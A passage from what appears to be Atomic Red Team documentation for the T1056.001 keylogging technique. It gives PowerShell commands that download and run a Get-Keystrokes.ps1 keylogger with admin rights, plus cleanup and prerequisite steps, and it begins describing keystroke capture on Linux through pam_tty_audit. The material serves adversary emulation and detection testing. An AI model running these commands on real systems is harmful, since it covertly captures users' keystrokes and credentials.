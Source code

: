 Upon successful execution, Powershell will execute `Get-Keystrokes.ps1` and output to key.log.

**Supported Platforms:** Windows

**auto_generated_guid:** d9b633ca-8efb-45e6-b838-70f595c6ae26

#### Inputs:

| Name     | Description                           | Type | Default Value         |
| -------- | ------------------------------------- | ---- | --------------------- |
| filepath | Name of the local file, include path. | path | $env:TEMP&#92;key.log |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
&"$PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1" -LogPath #{filepath}
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\key.log -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Get-Keystrokes PowerShell script must exist on disk at PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1") -Force | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1056.001/src/Get-Keystrokes.ps1 -OutFile "PathToAtomicsFolder\T1056.001\src\Get-Keystrokes.ps1"
```

<br/>
<br/>

## Atomic Test #2 - Living off the land Terminal Input Capture on Linux with pam.d

Pluggable Access Module, which is present on all modern Linux systems, generally contains a library called pam_tty_audit.so which logs all keystrokes for the selected users and sends it to audit.log. All terminal activity on any new logins would then be archived and readable by an adversary with elevated privledges.
